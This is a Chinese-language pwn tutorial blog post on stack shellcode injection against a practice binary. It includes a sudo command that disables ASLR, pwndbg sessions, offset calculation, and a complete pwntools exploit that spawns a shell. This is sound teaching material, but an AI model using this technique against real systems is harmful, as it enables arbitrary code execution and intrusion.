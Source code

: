 ```yaml
---
title: 'shellcode'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '运行你自己的指令'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回地址（返回指针）以劫持代码，并执行我们自己的指令。

<Warning>
  我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。pwntools 很安全，并且几乎拥有你需要的所有 shellcode。
</Warning>

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

<Download name="shellcode.zip" href="/static/assets/shellcode.zip" type="Binary" />

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/blog/pwn-notes/stack/nops) 。这种随机化可能会使我们的 shellcode 变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

<Note>
  类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很浪费时间的事情。
</Note>

<Warning>
  再次强调，如果你不知道指令的作用，则永远不要运行该指令。
</Warning>

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln`，并找出缓冲区在内存中的起始位置；这就是我们想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出 `ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>  <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/blog/pwn-notes/stack/de-bruijn-sequences) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 Exploit

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供 shellcode。

```python showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

<Note>
  我们可以只使用 `process()`，因为一旦设置了 `context.binary` 就默认假定使用该进程。
</Note>

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode。

```python showLineNumbers
payload = asm(shellcraft.sh())      # 构建 Shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664)          # 返回地址
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与 shell 通信。

```python showLineNumbers
p.sendline(payload)

p.interactive()
```

<Warning>
  如果你遇到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它，栈地址可能是错误的。

  你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。
</Warning>

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 39321
[*] Switching to interactive mode
Overflow me
$ whoami
cub3y0nd
```

## 0x05 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell

